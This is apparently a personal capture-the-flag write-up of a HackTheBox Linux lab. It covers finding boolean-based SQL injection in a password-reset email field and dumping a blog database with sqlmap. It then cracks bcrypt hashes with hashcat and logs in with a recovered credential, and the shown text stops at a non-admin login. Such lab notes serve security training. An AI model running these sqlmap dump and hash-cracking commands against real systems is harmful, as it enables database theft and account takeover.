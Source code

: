 Intercept this request with Burperoni 

![[HackTheBox/Linux/attachments/Pasted image 20250512001937.png]]

Send request and the response gives us nothing... then assume it's boolean based SQLi?

![[HackTheBox/Linux/attachments/Pasted image 20250512002056.png]]

Copy the request to a file called reset.req. 

#### SQLMAP

Use sqlmap to fuzz the email parameter with boolean technique

```
sqlmap -r request.req -p email --level 5 --risk 3 --technique=B --batch
```

Found a SQLi vulnerability 
![[HackTheBox/Linux/attachments/Pasted image 20250512002601.png]]

Dump the databases with --dbs
```
sqlmap -r request.req -p email --level 5 --risk 3 --technique=B --batch --dbs --threads 10
```

![[HackTheBox/Linux/attachments/Pasted image 20250512003005.png]]

Dump the database usage_blog 

```
sqlmap -r request.req -p email --level 5 --risk 3 --technique=B --threads 10 --batch --dump usage_blog
```

Users table with hashiess
![[HackTheBox/Linux/attachments/Pasted image 20250512003300.png]]

Save these hashes to a file and crack dem hashes

### hashcat

Crack the hashes (bcrypt -> mode 3200)
```
hashcat -m 3200 usage.bcrypt /usr/share/wordlists/rockyou.txt
```

Passwords cracked
![[HackTheBox/Linux/attachments/Pasted image 20250512003650.png]]
- got raj's password as `xander`

### Login to website with found creds

`raj@raj.com:xander`

![[HackTheBox/Linux/attachments/Pasted image 20250512003806.png]]
- this does work but we're not an admin
